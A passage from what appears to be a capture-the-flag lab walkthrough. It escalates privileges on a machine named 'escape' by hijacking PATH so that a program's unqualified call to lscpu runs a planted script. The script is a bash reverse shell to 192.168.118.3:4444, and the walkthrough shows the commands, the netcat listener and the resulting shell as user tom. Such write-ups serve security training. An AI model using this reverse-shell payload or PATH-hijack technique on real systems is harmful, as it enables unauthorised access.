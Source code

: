 Inspecting the output very closely, we discover that lscpu is being used without specifying its full path. That makes it vulnerable to PATH hijacking. Let's inspect the current value of the PATH variable.

Debian-snmp@escape:/$ echo $PATH
echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

When the full PATH is not specified, /usr/local/sbin directory will be searched first, then /usr/local/bin and so on until the binary is found.

After checking the permissions on all of these directories, we realize that we are not able to write to any of them. However, we can modify the PATH variable itself to introduce a new path of our choice that will be searched first.

Let's prepend the /tmp directory onto the current PATH variable:

Debian-snmp@escape:/$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
Debian-snmp@escape:/$ echo $PATH
echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

We'll create another bash reverse shell payload named lscpu, place it in the /tmp directory, and make it executable.

Debian-snmp@escape:/$ cd /tmp
cd /tmp
Debian-snmp@escape:/tmp$ echo 'bash -c "bash -i >& /dev/tcp/192.168.118.3/4444 0>&1"' > lscpu
<sh -i >& /dev/tcp/192.168.118.3/4444 0>&1"' > lscpu
Debian-snmp@escape:/tmp$ chmod +x lscpu
chmod +x lscpu

If we run logconsole now and choose option 6, it should find and run our payload first. Let's try this. We'll set up a new netcat listener on port 4444 and then run logconsole again.

Debian-snmp@escape:/tmp$ /usr/bin/logconsole
/usr/bin/logconsole
...
Enter the option ==> 6
...

This time, the program hangs, and our listener indicates that we have caught a reverse shell as tom:

kali@kali:~$ nc -lvp 4444
listening on [any] 4444 ...
192.168.120.138: inverse host lookup failed: Unknown host
connect to [192.168.118.3] from (UNKNOWN) [192.168.120.138] 44312
bash: cannot set terminal process group (711): Inappropriate ioctl for device
bash: no job control in this shell
tom@escape:/tmp$ id
id
uid=1000(tom) gid=115(Debian-snmp) groups=115(Debian-snmp)

SSH
